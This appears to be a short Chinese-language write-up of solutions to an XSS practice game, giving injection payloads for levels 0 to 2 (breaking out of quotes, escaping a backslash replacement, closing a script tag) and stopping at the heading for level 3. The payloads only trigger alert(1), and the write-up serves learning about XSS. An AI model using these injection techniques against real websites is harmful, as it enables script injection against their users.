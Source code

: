 # Level 0-Warmup
");alert(1)//

# Level 1-Adobe
這關將 " replace為 \"，因此要試著繞過。

\");alert(1);//

# Level 2-Json
這題使用了Json.stringify，可看一下運作的方式。

可以直接關閉script來開啟另一個alert

</script><script>alert(1)//

# Level 3-JavaScript
